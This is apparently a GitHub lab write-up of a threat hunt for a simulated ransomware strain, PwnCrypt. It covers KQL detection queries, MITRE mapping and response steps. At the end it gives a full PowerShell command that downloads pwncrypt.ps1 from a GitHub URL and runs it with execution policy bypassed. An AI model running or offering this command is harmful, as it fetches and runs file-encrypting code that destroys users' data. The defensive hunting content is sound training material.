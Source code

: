 
---

## **🎯 Incident Response Plan: Zero-Day Ransomware (PwnCrypt) Outbreak**  

![image (11)](https://github.com/user-attachments/assets/abe54490-9d72-416b-8e9c-ac8746484da3)

### **Scenario**  
A new ransomware strain, **PwnCrypt**, has emerged. It utilizes a PowerShell-based payload to encrypt files, appending `.pwncrypt` to filenames (e.g., `hello.txt → hello.pwncrypt.txt`). The payload is downloaded using `Invoke-WebRequest` via PowerShell and targets specific directories like `C:\Users\Public\Desktop`. The CISO has raised concerns, and immediate investigation is required.  
 
## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Tor Browser
---

### **1️⃣ Preparation**  
📌 **Goal:** Develop a hypothesis based on threat intelligence and organizational gaps.  
- The organization's immature security program (e.g., no user training) may have allowed ransomware into the network.  
- Use known IoCs, such as `.pwncrypt` file extensions, to guide the investigation.  

🔎 **Hypothesis:** Could PwnCrypt have spread laterally across the network?  

---

### **2️⃣ Data Collection**  
📌 **Goal:** Gather logs and evidence from endpoints, file systems, and network traffic.  

#### 🖥️ **Suspicious PowerShell Command Query:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest" and ProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, DeviceName, InitiatingProcessParentFileName, ProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 112931](https://github.com/user-attachments/assets/726cfa16-8617-410e-9805-c316b01a0606)


#### 🔄 **Trace Ransomware Execution:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "C:\\programdata\\pwncrypt.ps1" or FileName == "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine, AccountName, InitiatingProcessAccountName
```
![Screenshot 2025-01-09 112245](https://github.com/user-attachments/assets/d657757a-28a1-491e-a246-d94b0f720ea0)

#### 🌐 **Outbound Network Activity:**  
```kql
DeviceNetworkEvents
| where RemoteUrl has "githubusercontent.com"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, InitiatingProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 114155](https://github.com/user-attachments/assets/3dad1d63-ddbf-4790-a3b4-e8853f253314)

---

### **3️⃣ Data Analysis**  
📌 **Goal:** Examine data for anomalies, patterns, and IoCs.  

🛑 **Indicators Found:**  
- **PowerShell Usage:** Execution of `pwncrypt.ps1` via `Invoke-WebRequest`.  
- **Outbound Traffic:** Connection to GitHub for payload download.  
- **File Events:** Creation of `.pwncrypt` files in user directories.  

🧠 **TTPs Mapped to MITRE ATT&CK Framework:**  
- **T1059.001**: Command and Scripting Interpreter (PowerShell).  
- **T1486**: Data Encrypted for Impact (Ransomware).  
- **T1105**: Ingress Tool Transfer (Downloading payloads).  
- **T1547**: Boot/Logon Autostart Execution (Persistence).  

---

### **4️⃣ Investigation**  
📌 **Goal:** Deep dive into findings and assess the threat's scope.  

#### 🔍 **Steps:**  
1. Check **DeviceFileEvents** for `.pwncrypt` file creation.  
2. Investigate process lineage in **DeviceProcessEvents** to identify the initial infection vector.  
3. Analyze account activity for potential compromise.  

---

### **5️⃣ Response**  
📌 **Goal:** Contain and mitigate confirmed threats.  

#### 🛡️ **Containment:**  
- 🚫 Disconnect affected devices from the network.  
- 🧱 Block known malicious IPs and domains.  

#### 🧹 **Eradication:**  
- Remove `pwncrypt.ps1` and terminate related processes.  
- Scan endpoints for persistence mechanisms (e.g., scheduled tasks).  

#### 🔄 **Recovery:**  
- Restore data from **clean backups**.  
- Verify integrity of restored systems.  

---

### **6️⃣ Documentation**  
📌 **Goal:** Record findings and actions taken.  

🗒️ **What to Document:**  
- Timeline of events.  
- IoCs identified (e.g., `.pwncrypt` files, GitHub URLs).  
- Steps for containment, eradication, and recovery.  
- Gaps in security posture and recommendations for improvement.  

---

### **7️⃣ Improvement**  
📌 **Goal:** Enhance the organization’s defenses against future incidents.  

#### 🚀 **Action Plan:**  
1. Deploy **endpoint protection policies**.  
2. Implement **user training** to identify phishing attempts.  
3. Strengthen **logging and monitoring** to detect suspicious behavior earlier.  

---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

📅 **Incident Start Time:**  
- **Date:** Jan 09, 2025  
- **Time:** 9:45 AM  
- **IP:** 185.199.111.133  

---
